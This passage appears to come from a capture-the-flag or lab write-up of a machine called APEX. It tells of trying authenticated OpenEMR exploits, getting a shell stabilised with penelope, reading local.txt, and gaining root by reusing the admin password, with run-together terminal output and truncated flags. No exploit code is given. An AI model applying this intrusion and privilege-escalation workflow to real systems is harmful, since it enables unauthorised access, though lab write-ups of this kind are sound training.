
Now that I have valid credentials, I can use exploits that I discovered earlier via searchsploit. I couldn’t use those attacks before because all of them require authentication.

all of the exploits utilize /openemr/portal path but portal is disabled in the website’s settings.

Got the perfectly stabilized shell with penelope

Found local.txt
xxxxxxxxxxwww-data@APEX:/home/white$ lslocal.txtwww-data@APEX:/home/white$ cat local.txt1f1d...I tried admin’s password on root and it worked.
xxxxxxxxxxwww-data@APEX:/home/white$ su rootPassword: root@APEX:~# whoamirootFound root.txt
xxxxxxxxxxroot@APEX:~# cd /rootroot@APEX:~# lsproof.txtroot@APEX:~# cat proof.txt fef...